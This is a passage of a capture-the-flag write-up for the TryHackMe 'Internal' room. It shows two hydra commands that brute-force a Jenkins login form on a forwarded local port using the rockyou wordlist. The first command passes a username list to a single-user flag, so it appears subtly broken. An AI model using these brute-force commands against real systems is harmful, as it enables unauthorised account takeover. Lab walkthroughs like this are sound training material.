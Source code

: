 ![image37](/assets/img/posts/THM-Internal/image37.png)

# Hydra to Jenkins

TryHackMe Hackpack has bruteforce process with hydra.

```bash
hydra -l /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 6868 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -f
```

If it take too long just try to brute force with username: `Admin`

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 6868 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -f
```

![image38](/assets/img/posts/THM-Internal/image38.png)
